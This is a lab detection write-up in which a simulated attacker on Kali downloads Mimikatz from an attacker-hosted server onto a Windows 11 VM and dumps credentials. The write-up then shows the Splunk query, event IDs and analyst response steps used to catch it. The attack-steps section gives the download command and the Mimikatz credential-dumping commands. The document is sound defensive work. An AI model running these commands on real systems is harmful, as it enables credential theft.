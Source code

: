 

# Detection Usecase 4 : Credentials Dumping with Mimikatz


# Scenario Summary: 

An Attacker has gain a local access to a machine, he attempts to run Mimikatz in the system to dump all the credentials.

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.  
- The Attack was simulated by Kali Linux on Windows as follows:  

1) Attacker logged into the system using SSH:   
```
ssh sshuser@192.168.0.101
```  
2) Downloaded the mimikatz and executed it:    
```
Invoke-WebRequest -URI http://192.168.0.106:8888/mimikatz64.exe -Outfile C:\Users\sshuser\mimi64.exe
./mimi64.exe "privilege::debug"
./mimi64.exe "log"
./mimi64.exe "sekurlsa::logonpasswords"

```  

- Tools Used:  
    - Attacker Tool : SSH, Mimikatz.    
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon  


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                             |
|---------------------------|-----------|-----------------------------------------|
| WinEventLog : Security    | 4656      | A handle to an object was requested     |
| WinEventLog : Security    | 4663      | An attempt was made to access an object |

# Detection Query / Logic:
```spl 
- Search : lsass.exe
index=* EventCode=4663 Object_Name="*lsass.exe"
```

# Sample Alert Screenshot

1) Attacker Downloaded Mimikatz and executed it:  

![mimikatz](<logs/Screenshot 2025-05-28 173020.png>)  

2) Mimikatz tried to access lsass process for memory dump:  

![req](<logs/Screenshot 2025-05-29 134342.png>)  
![access](<logs/Screenshot 2025-05-29 134418.png>)

3) Many attempt was made to access lsass process: 

![log](<logs/Screenshot 2025-05-29 134928.png>)


# Analyst Notes / Recommendations:

* What Should an Analyst do ? 

-> Investigate and Verify Mimikatz Execution(EventID = 1) and check the alert if someone accessed the Lsass Process.  
-> Try to correlate it with any previous event to understand attacker context(e.g., Account Used or Source IP / Host etc).   
-> If Mimikatx execution is confirmed : Isolate the system , Force Password-reset for logged-in users.  
-> Now check the system for any lateral movement which attacker usually do after running Mimikatz.  
-> Preserve the Evidence & Trigger an incident response.     
-> Document & Report the incident.


# Detection Status

 -> Successfully Detected.  
